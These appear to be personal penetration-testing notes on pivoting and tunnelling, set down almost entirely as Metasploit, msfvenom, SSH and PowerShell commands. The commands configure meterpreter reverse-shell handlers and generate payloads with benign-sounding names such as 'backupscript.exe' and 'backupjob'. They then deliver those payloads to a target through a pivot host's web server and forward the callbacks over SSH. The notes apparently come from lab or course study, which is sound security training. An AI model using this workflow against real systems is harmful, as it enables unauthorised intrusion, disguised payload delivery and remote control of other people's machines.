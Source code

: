 #### MSF - Configuring & Starting the multi/handler
```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

#### Transferring Payload to Pivot Host
```Shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host
```Shell
python3 -m http.server 8123
```

#### Downloading Payload from Windows Target
```PowerShell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R
```Shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

#### Viewing the Logs from the Pivot
#### Meterpreter Session Established
![[Pasted image 20230309120923.png]]


## Meterpreter Tunneling & Port Forwarding

#### Creating Payload for Ubuntu Pivot Host
```Shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

#### MSF - Configuring & Starting the multi/handler
```Shell
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

#### Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session
```Shell
chmod +wrx backupjob
```
